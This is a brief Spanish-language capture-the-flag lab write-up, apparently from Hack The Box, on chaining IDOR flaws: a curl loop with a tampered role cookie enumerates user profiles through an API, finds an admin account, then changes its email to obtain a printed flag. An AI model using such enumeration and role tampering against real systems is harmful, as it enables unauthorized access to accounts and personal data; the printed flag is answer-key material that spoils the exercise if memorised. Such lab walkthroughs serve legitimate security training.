


# Laboratorio: Chaining IDOR's 🔗

1. Visitamos la web 

<p align="center">
    
</p>

---

2. Como sabemos de antemano que necesitamos encontrar un usuario con el **`role`** de administrador, usaremos **cURL** para encontrarlo
* `for i in $(seq 1 20); do curl -s -X GET "http://[IP]:[PORT]/profile/api.php/profile/$i" -H "Cookie: role=employee" | jq; done`

* **Output**
```json
<SNIP>
{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```
---
3. Una vez tenemos todos los datos del usuario `admin`, lo que haremos es actulizar su correo por `flag@idor.htb` para **obtener la flag** 🏴


<p align="center">
    
</p>

* **Flag:** `HTB{1_4m_4n_1d0r_m4573r}`